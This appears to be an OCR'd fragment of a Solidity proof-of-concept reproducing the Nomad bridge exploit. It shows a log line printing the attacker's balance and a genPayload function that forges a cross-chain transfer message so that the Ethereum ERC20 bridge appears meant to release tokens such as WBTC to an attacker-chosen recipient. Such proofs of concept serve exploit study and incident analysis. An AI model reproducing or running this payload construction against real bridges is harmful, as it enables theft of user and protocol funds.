 ```solidity
 
           console.log(
               "    Attacker balance after: ",
               IERC20(token).balanceOf(msg.sender) / 10**ERC20(token).decimals()
           );
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),          // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),      // Recipient of the transfer
           uint256(amount),                  // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
   }
}
```
